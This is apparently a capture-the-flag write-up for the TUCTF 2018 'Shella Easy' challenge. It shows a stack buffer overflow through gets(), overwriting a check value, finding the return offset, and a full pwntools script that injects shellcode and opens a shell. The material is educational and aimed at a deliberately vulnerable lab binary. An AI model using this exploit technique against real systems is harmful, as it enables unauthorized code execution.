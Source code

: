 
# Shella Easy

Program leaks a stack address

```
./shella-easy

Yeah I'll have a 0xfff446b0 with a side of fries thanks


```

NX disabled

```
checksec --file=shella-easy --format=json | jq .

{
  "shella-easy": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "2"
  }
}
```

Source code, takes the input of a **64** byte buffer into the culnerable `gets()` function. Then it checks to see if a variable has changed from `0xcafebabe` to ` 0xdeadbeef`. If it has, it does not execute `exit`.

```c
undefined4 main(void)

{
  char input [64];
  int check;
  
  setvbuf(_stdout,(char *)0,2,20);
  setvbuf(_stdin,(char *)0b0,2,20);
  check = L'\xcafebabe';
  printf("Yeah I\'ll have a %p with a side of fries thanks\n",input);
  gets(input);
  if (check != L'\xdeadbeef') {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return 0;
}
```

`input` is at an offset of **0x4c** (**-76**) bytes.

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     08048556(R)  
             undefined4        Stack[-0xc]:4  check                                   XREF[2]:     0804851b(W), 
                                                                                                   08048541(R)  
             undefined1[64]    Stack[-0x4c]   input                                   XREF[2]:     08048522(*), 
                                                                                                   08048535(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:080483f7(*), 08048630, 
                                                                                          080486a0(*)  
```

Taking a closer look at the comparison check to confirm, `0xdeadbeef` is checked against the value starting at `ebp-0x8` (**64**). 

```
disassemble main
...
   0x0804853e <+99>:    add    esp,0x4
   0x08048541 <+102>:   cmp    DWORD PTR [ebp-0x8],0xdeadbeef
   0x08048548 <+109>:   je     0x8048551 <main+118>
   0x0804854a <+111>:   push   0x0
   0x0804854c <+113>:   call   0x80483a0 <exit@plt>
   0x08048551 <+118>:   mov    eax,0x0
   0x08048556 <+123>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048559 <+126>:   leave
   0x0804855a <+127>:   ret
End of assembler dump.
```

Set a breakpoint at the `cmp` instruction

```
pwndbg> b *main+102
Breakpoint 1 at 0x8048541
```

Run the program, fill the **64** byte buffer + `0xdeadbeef` and confirm that the check value  `0xcafebabe` has been overwritten and the `je` is passed.

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*64 + pwn.p32(0xdeadbeef))')

Starting program: /home/wither/NOTES/TUCTF/2018/Shella-Easy/shella-easy < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*64 + pwn.p32(0xdeadbeef))')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Yeah I'll have a 0xffffce00 with a side of fries thanks

Breakpoint 1, 0x08048541 in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────
 EAX  0xffffce00 ◂— 0x41414141 ('AAAA')
 EBX  0x804a000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x8049f0c (_DYNAMIC) ◂— 1
 ECX  0xf7fa58ac (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x8048560 (__libc_csu_init) ◂— push ebp
 EBP  0xffffce48 ◂— 0
 ESP  0xffffce00 ◂— 0x41414141 ('AAAA')
 EIP  0x8048541 (main+102) ◂— cmp dword ptr [ebp - 8], 0xdeadbeef
───────────────────────[ DISASM / i386 / set emulate on ]────────────────────────
 ► 0x8048541  <main+102>                      cmp    dword ptr [ebp - 8], 0xdeadbeef     0xdeadbeef - 0xdeadbeef     EFLAGS => 0x246 [ cf PF af ZF sf IF df of ]
   0x8048548  <main+109>                    ✔ je     main+118                    ...
```

Now that we pass the `cmp`, we need to find the padding to return address, so that we can overwrite that to point to shellcode. Set a breakpoint at the return address

```
...
   0x0804854c <+113>:   call   0x80483a0 <exit@plt>
   0x08048551 <+118>:   mov    eax,0x0
   0x08048556 <+123>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048559 <+126>:   leave
   0x0804855a <+127>:   ret
End of assembler dump.
...

 b *main+127
Breakpoint 1 at 0x804855a
```

Use the same payload as before + a cylic pattern, then look up the pattern overwritten into the return address to find the offset of **8**. 

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A" * 64 + pwn.p32(0xdeadbeef) + pwn.cyclic(20))')

...
 ► 0x804855a <main+127>    ret                                <0x61616163>
    ↓
...

pwndbg> cyclic -l 0x61616163
Finding cyclic pattern of 4 bytes: b'caaa' (hex: 0x63616161)
Found at offset 8
```

Now that we have control of the return address, we can write an exploit that will write shellcode onto the stack, pass the check and then return to execute it.

```python
#!/usr/bin/python3

# import pwntools
from pwn import *
# import re for regex
from re import *

# only show errors
context.log_level = 'ERROR'

# start the binary process
context.binary = ELF("./shella-easy", checksec=False)
p = process()

# grab the stack address leaked by the program
line = p.recvline().decode().strip()
leaked_addr = int(search(r'0x[\da-f]+', line).group(), 16)

# generate shellcode that will open a shell
shellcode = asm(shellcraft.sh())
# add the shellcode + padding to fill 64B buffer + 0xdeadbeef to pass check + 8B padding to ret + address of shellcode to return to and execute
payload = shellcode + b"A" * (64 - len(shellcode)) + p32(0xdeadbeef) + b"B" * 8 + p32(leaked_addr)

# send the payload and enter interactive mode for the shell
p.sendline(payload)
p.interactive()
```

Running the exploit opens a shell

```shell
python3 exploit.py

$ ls
README.md  exploit.py  shella-easy
```